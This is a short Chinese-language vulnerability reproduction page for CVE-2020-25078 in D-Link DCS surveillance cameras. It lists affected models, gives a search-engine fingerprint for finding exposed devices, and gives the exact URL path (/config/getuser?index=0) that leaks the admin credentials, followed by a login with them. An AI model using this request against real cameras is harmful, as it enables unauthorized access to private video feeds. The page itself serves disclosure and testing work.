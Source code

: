 # D-Link DCS系列监控 账号密码信息泄露漏洞 CVE-2020-25078

## 漏洞描述

D-Link DCS系列监控 通过访问特定的URL得到账号密码信息，攻击者通过漏洞进入后台可以获取视频监控页面

## 漏洞影响

<a-checkbox checked>DCS-2530L</a-checkbox></br>
<a-checkbox checked>DCS-2670L</a-checkbox></br>
<a-checkbox checked>DCS-4603</a-checkbox></br>
<a-checkbox checked>DCS-4622</a-checkbox></br>
<a-checkbox checked>DCS-4701E</a-checkbox></br>
<a-checkbox checked>DCS-4703E</a-checkbox></br>
<a-checkbox checked>DCS-4705E</a-checkbox></br>
<a-checkbox checked>DCS-4802E</a-checkbox></br>
<a-checkbox checked>DCS-P703</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="D_Link-DCS-2530L"</a-checkbox></br>

## 漏洞复现



访问登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-9.png)



出现漏洞的 Url 为, 其中泄露了账号密码



```plain
http://xxx.xxx.xxx.xxx/config/getuser?index=0
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-10.png)



使用泄露的账号密码登陆系统



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/link-11.png)